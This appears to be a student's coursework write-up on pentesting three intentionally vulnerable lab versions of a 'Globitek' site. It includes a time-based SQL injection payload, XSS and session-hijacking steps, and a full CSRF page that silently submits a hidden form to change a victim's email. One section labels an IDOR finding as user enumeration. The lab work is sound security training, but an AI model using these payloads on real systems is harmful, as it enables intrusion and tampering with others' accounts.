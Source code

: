 # Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking
<img src="https://i.imgur.com/1g4prFK.gif"/>
* The session ID is found from the chrome developer tools console. 
* The attacker changes the session ID using the provided change_session_id.php.
* The attacker is now able to access the victims session.

Vulnerability #2: SQL Injection
<img src="https://i.imgur.com/3keNk4f.gif" />
* The exploit exists in the salesperson.php page.
* The exploit is done via the url. 
* Using the given ```' OR SLEEP(5)=0--'``` statement, the page proceeds to wait 5 seconds before returning.


## Green

Vulnerability #1: XSS
<img src="https://i.imgur.com/wJbBp7O.gif"/>
* This exploit is done via the feedback section. 
* The XSS executes when a privileged user accesses the feedback page in the /staff/feedback/ section.


Vulnerability #2: User Enumeration
<img src="https://i.imgur.com/EOH0sFs.gif"/>
* Using the given username "jmonroe99" we can see that a valid username shows a bold error.
* An incorrect username shows a not-bolded error.

Bonus: XSS
<img src="https://i.imgur.com/zx8kPL7.gif"/>
* This exploit is the same as the first XSS found.
* The ```alert()``` statement is replaced with a ```window.location.assign()``` statement.

## Red

Vulnerability #1: CSRF
<img src="https://i.imgur.com/WLeB4Gp.gif"/>
* The attacker submits a malicious webpage into the feedback section.
* The victim visits the url from the feedback.
* The malicious webpage silently submits a form to the edit section of the victims page.
``` <!DOCTYPE html>
		<html>
	<head>
		<title>Your Feedback</title>
		<script src="https://code.jquery.com/jquery-3.2.1.min.js"></script>
	</head>
	<body>

		<p> you should secure your site</p>
		<style>
		.hide-form {
			display: none;
		}
		</style>
		<form action="https://104.154.100.160/red/public/staff/salespeople/edit.php?id=7" method="POST" class="hide-form" id="attackform"  name="form">
			<input type="text" name="first_name" value="Not Samuel" /><br />
			<input type="text" name="last_name" value="Not Hunter" /><br />
			<input type="text" name="phone" value="111-222-3333" /><br />
			<input type="text" name="email" value="changed_your_email_again@attack.com" /><br />
		</form>
		<script>
		$(function() {
			console.log("loaded");
			window.document.forms[0].submit(function(e) {


				console.log("submitted");
			});
		});
		</script>
</html>```

Vulnerability #2: User Enumeration
<img src="https://i.imgur.com/7IZ8N9k.gif"/>
* By directly changing the 'id' parameter in the URL we can find salespersons not mentioned on the page.
* ID's 10 and 11 shouldn't be accessible by everyone. 


## Notes

Describe any challenges encountered while doing the work

